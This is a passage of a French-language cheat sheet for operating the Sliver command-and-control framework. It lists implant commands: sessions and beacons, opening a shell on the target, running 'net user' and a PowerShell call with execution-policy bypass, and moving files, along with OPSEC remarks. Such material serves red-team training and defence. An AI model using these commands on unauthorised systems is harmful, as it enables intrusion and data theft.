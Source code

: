 ```sliver
use <beacon_id>
interactive
```

* **Contexte :** Convertit un beacon asynchrone en session interactive persistante.
* **OPSEC :** Augmente le "bruit" réseau et la détectabilité par rapport au mode beacon.

#### Utiliser une Session ou un Beacon

```sliver
use <session_id | beacon_id>
```

* **Contexte :** Sélectionne un implant pour lui envoyer des commandes. Le prompt change pour indiquer l'implant actif.
* **Exemple Prompt :** `sliver (IMPLANT_NAME)`

#### Mettre une session en arrière-plan

```sliver
background
```

* **Contexte :** Retourne à la console principale de Sliver tout en gardant la session active.

---

### 💻 **Commandes Courantes dans un Implant**

*(Doivent être exécutées après avoir sélectionné un implant avec `use <id>`)*

#### Obtenir un shell système

```sliver
shell
```

* **Contexte :** Ouvre un shell interactif (`cmd.exe` ou `/bin/bash`) sur la machine cible.
* **Usage :** Exécution de commandes système de base.

#### Exécuter une commande unique

```sliver
execute -o <commande> [arguments...]
# Exemple: execute -o net user
# Exemple: execute -o powershell.exe -ExecutionPolicy Bypass -C "Get-Process"
```

* **Contexte :** Exécute une commande et récupère sa sortie sans ouvrir de shell interactif complet. `-o` capture la sortie.
* **Usage :** Exécution rapide de commandes spécifiques.

#### Transfert de fichiers

```sliver
upload <fichier_local> <chemin_distant>
download <chemin_distant> [fichier_local]
```
